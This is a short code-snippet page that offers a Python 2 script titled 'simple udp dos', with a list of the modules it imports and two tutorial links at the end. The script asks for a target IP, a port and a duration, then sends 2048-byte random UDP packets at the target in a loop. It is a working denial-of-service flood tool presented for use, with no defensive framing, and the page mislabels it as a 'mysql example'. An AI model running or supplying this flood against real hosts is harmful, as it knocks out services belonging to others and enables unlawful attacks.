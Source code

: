 ```yaml
---
title: python script simple udp dos (snippet)
date: 2020-03-03
tags: ["python"]
---
```

Python script 'simple udp dos'


Modules used in program: 
* `import random`
* `import socket`
* `import time`
* `import sys`
* `import os`

## python simple udp dos

Python mysql example: simple udp dos

```python
import os
import sys
import time
import socket
import random

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(2048)

print("This is a simple tool for udp dos.")

ip = raw_input("Target ip or url: ")
port = input("Port: ")
dur = input("Time: ")

timeout = time.time() + dur
sent = 0

while True:
    try:
        if time.time() > timeout:
            break
        else:
            pass
        sock.sendto(bytes, (ip, port))
        sent += 1
        print("Sent %s packets to %s" % (sent, ip))
    except KeyboardInterrupt:
        sys.exit()

```

## Python links

- Learn Python: https://pythonbasics.org/
- Python Tutorial: https://pythonspot.com
